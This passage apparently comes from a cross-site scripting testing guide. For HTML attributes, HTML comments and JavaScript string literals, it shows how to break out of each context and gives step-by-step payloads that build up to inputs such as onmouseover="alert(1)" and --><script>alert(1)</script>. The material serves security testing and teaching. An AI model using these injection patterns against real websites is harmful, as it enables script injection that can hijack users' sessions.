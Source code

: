 **Structural Requirements:**
- **Escape:** Space (separate from previous attribute)
- **Structure:** Valid attribute name
- **Payload:** Event handler attribute
- **Cleanup:** `="` + dummy value

**Progressive Testing:**
```
Step 1: test
Step 2: onmouseover
Step 3: onmouseover=
Step 4: onmouseover="alert(1)
Step 5: onmouseover="alert(1)"
```

### HTML Comments
**Context Pattern:**
```html
<!-- USER_INPUT -->
```

**Structural Requirements:**
- **Escape:** `-->` (close comment)
- **Structure:** Valid HTML after comment
- **Payload:** Script tags or event handlers
- **Cleanup:** `<!--` (open new comment)

**Progressive Testing:**
```
Step 1: test
Step 2: -->
Step 3: --><script>
Step 4: --><script>alert(1)
Step 5: --><script>alert(1)</script>
Step 6: --><script>alert(1)</script><!--
```

## JavaScript Contexts

### JavaScript String Literals
**Context Pattern:**
```html
<script>
var data = "USER_INPUT";
</script>
```

**Structural Requirements:**
- **Escape:** `"` or `'` (close string)
- **Structure:** `;` (end statement)
- **Payload:** Valid JavaScript
- **Cleanup:** `;//` or `/**/` (comment out rest)

**Progressive Testing:**
```
Step 1: test
Step 2: "
Step 3: ";
Step 4: ";alert(1)
Step 5: ";alert(1);
Step 6: ";alert(1);//
```
